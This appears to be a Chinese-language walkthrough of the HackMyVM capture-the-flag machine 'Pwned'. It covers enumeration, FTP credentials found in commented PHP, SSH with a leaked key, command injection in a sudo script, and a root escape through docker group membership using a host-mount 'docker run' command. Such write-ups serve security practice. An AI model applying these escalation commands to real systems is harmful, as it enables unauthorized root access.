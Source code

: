 # Pwned

2024-11-08 https://hackmyvm.eu/machines/machine.php?vm=Pwned

## IP

192.168.5.39

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 不能匿名登陆，先看 80 web 服务。gobuster 使用大字典 /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt 扫描出 1 个目录 /nothing 但是什么都没有，还有一个目录 hidden_text 里面有个文件 secret.dic，将此文件作为字典，再次 gobuster 扫描，发现另一个目录： http://192.168.5.39/pwned.vuln/ 查看源码，发现登陆用户名和密码：

```
<?php
//	if (isset($_POST['submit'])) {
//		$un=$_POST['username'];
//		$pw=$_POST['password'];
//
//	if ($un=='ftpuser' && $pw=='B0ss_B!TcH') {
//		echo "welcome"
//		exit();
// }
// else
//	echo "Invalid creds"
// }
?>
```

尝试登陆没有作用，前面还有个 ftp 使用此用户名和密码登陆 ftp，登陆成功。在其中发现 share 目录，在其中有 id_rsa 和 note.txt ，note.txt 中有一个用户名，把 id_rsa 下载，使用 ssh 进行登陆：

```
ssh -i id_rsa ariana@192.168.5.39
```

得到了 user flag：

```
ariana@pwned:~$ cat user1.txt
congratulations you Pwned ariana

Here is your user flag ↓↓↓↓↓↓↓

fb8d98be1265dd88bac522e1b2182140

Try harder.need become root
```

寻找提权 root 路径，sudo -l 发现：

```
(selena) NOPASSWD: /home/messenger.sh
```

需要先提权到 selena 用户，在这个脚本中在输入 msg 时存在系统命令注入`$msg 2> /dev/null`：

```
Enter username to send message : ariana

Enter message for ariana :/bin/bash

Sending message to ariana
id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```

这时就得到了 selena 权限，在其 home 目录得到了第二个 flag：

```
cat user2.txt
711fdfc6caad532815a440f7f295c176

You are near to me. you found selena too.

Try harder to catch me
```

selena 属于 docker 用户组，这样就直接能挂载宿主机的 / 目录到 docker 中了：

```
docker images

docker run -v /:/mnt --rm -it a24bb4013296 chroot /mnt sh
```

直接拿到了 root flag：

```
# cat root.txt
4d4098d64e163d2726959455d046fd7c



You found me. i dont't expect this （◎ . ◎）

I am Ajay (Annlynn) i hacked your server left and this for you.

I trapped Ariana and Selena to takeover your server :)


You Pwned the Pwned congratulations :)

share the screen shot or flags to given contact details for confirmation

Telegram   https://t.me/joinchat/NGcyGxOl5slf7_Xt0kTr7g

Instgarm   ajs_walker

Twitter    Ajs_walker
```
